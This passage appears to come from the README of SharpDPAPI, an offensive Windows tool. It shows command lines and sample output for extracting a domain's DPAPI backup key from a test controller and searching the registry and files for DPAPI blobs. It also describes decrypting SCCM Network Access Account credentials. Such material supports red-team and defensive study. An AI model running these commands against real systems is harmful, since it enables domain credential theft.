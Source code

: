     C:\Temp>SharpDPAPI.exe backupkey /server:primary.testlab.local /file:key.pvk

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: Retrieve domain DPAPI backup key


    [*] Using server                     : primary.testlab.local
    [*] Preferred backupkey Guid         : 32d021e7-ab1c-4877-af06-80473ca3e4d8
    [*] Full preferred backupKeyName     : G$BCKUPKEY_32d021e7-ab1c-4877-af06-80473ca3e4d8
    [*] Backup key written to            : key.pvk


#### search
The **search** command will search for potential DPAPI blobs in the registry, files, folders, and base64 blobs. Usage:
```
SharpDPAPI.exe search /type:registry [/path:HKLM\path\to\key] [/showErrors]
SharpDPAPI.exe search /type:folder /path:C:\path\to\folder [/maxBytes:<numOfBytes>] [/showErrors]
SharpDPAPI.exe search /type:file /path:C:\path\to\file [/maxBytes:<numOfBytes>]
SharpDPAPI.exe search /type:base64 [/base:<base64 string>]
```
The `search` command works by searching for the following bytes, which represent the header (Version + DPAPI provider GUID) of DPAPI blob structure:

```
0x01, 0x00, 0x00, 0x00, 0xD0, 0x8C, 0x9D, 0xDF, 0x01, 0x15, 0xD1, 0x11, 0x8C, 0x7A, 0x00, 0xC0, 0x4F, 0xC2, 0x97, 0xEB
```

The search command has different arguments depending on the data type being scanned. To designate the data type, use the `/type` argument specifying `registry`, `folder`, `file`, or `base64`. If the `/type` argument is not present, the command will search the registry by default.

When searching the registry with no other arguments, the command will recursively search the HKEY_LOCAL_MACHINE and HKEY_USERS hives. Use `/path` parameter to specify a root to key to search from (e.g. `/path:HKLM\Software`) and use the `/showErrors` argument to display errors that occuring during enumeration.

When searching a file or folder, specify a path with `/path:C:\Path\to\file\or\folder` and optionally use `/maxBytes:<int>` to specify the number of bytes to read from each file (default: 1024 bytes). The command will read the bytes from the beginning of the file and search for DPAPI blobs. Use `/showErrors` to display an errors that occur during enumeration.

When searching a base64 blob, specify the base64-encoded bytes to scan with the `/base64:<base64 str>` parameter.

#### SCCM
If elevated on a machine that is an SCCM client, if the SCCM environment is configured with a Network Access Account (NAA), the system master key-protected DPAPI blobs containing the NAA credentials can be retrieved via WMI; The **SCCM** command will query the blobs via WMI, retrieve the system master keys, and decrypt the blobs.
